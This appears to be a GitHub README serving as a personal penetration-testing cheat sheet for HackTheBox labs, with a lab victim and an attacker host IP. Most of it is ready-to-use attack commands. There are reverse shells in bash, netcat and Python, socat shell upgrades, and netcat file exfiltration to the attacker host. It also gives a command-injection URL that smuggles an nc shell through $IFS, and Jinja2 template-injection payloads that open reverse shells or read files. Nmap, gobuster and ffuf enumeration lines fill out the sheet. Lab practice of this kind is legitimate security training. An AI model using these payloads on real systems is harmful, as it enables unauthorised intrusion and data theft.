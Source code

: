 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://github.com/Pash3nlee/HackTheBox/raw/main/images/cat.PNG)

# Useful Commands

## Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

## Reverse shells [:octocat:](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### With python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

### VHOST Discovery

* #### FuFF

```
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://schooled.htb/ -H "Host:FUZZ.schooled.htb" -fw 5338
```

### CSRF

Check CSRF

```
<a href="http://10.10.10.10:4444">MyURL</a>
```

Reverse shell

```
http://10.10.10.10/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.10.10'$IFS'4444')
```

### SSTI [:octocat:](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

![](https://gblobscdn.gitbook.com/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M7O4Hp6bOFFkge_yq4G%2F-M7OCvxwZCiaP8Whx2fi%2Fimage.png?alt=media&token=4b40cf58-5561-4925-bc86-1d4689ca53d1)

* #### Check Jinja2

```
{{7*'7'}} would result in 7777777
{{config.items()}}
```

 ** Reverse shell

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'").read()}}{%endif%}{%endfor%}
```

```
{{request.application.globals.builtins.import('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"').read()}}
```

** RCE

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

* #### Check Twig

```
{{7*'7'}} would result in 49
{{dump(app)}}
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
